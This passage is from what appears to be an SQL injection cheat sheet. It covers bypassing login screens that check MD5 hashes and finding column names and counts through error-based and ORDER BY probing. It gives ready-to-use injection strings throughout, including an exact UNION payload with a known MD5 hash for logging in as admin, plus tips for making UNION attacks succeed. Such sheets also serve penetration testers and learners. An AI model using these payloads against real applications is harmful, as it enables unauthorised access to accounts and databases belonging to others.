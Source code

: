 ### Bypassing second MD5 hash check login screens

If application is first getting the record by username and then compare returned MD5 with supplied password's MD5 then you need to some extra tricks to fool application to bypass authentication. You can union results with a known password and MD5 hash of supplied password. In this case application will compare your password and your supplied MD5 hash instead of MD5 from database.

#### Bypassing MD5 Hash Check Example (MSP)

Username :`admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'`

Password : `1234`
`81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)`

###

### Error Based - Find Columns Names

#### Finding Column Names with **HAVING BY** - Error Based (S)

*In the same order,*

- '` HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1** HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1, columnfromerror2** HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1, columnfromerror2, columnfromerror(n) **HAVING 1=1 --` *and so on*
- If you are not getting any more error then it's done.

#### Finding how many columns in SELECT query by **ORDER BY** **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

- `ORDER BY 1--`
- `ORDER BY 2--`
- `ORDER BY N--` *so on*
- Keep going until get an error. Error means you found the number of selected columns.

### Data types, UNION, etc.

#### Hints,

- Always use **UNION** with **ALL **because of **image** similar non-distinct field types. By default union tries to get records with distinct.
- To get rid of unrequired records from left table use -1 or any not exist record search in the beginning of query (*if injection is in WHERE*). This can be critical if you are only getting one result at a time.
- Use NULL in UNION injections for most data type instead of trying to guess string, date, integer etc.
    - Be careful in Blind situtaions may you can understand error is coming from DB or application itself. Because languages like ASP.NET generally throws errors while trying to use NULL values (*because normally developers are not expecting to see NULL in a username field*)
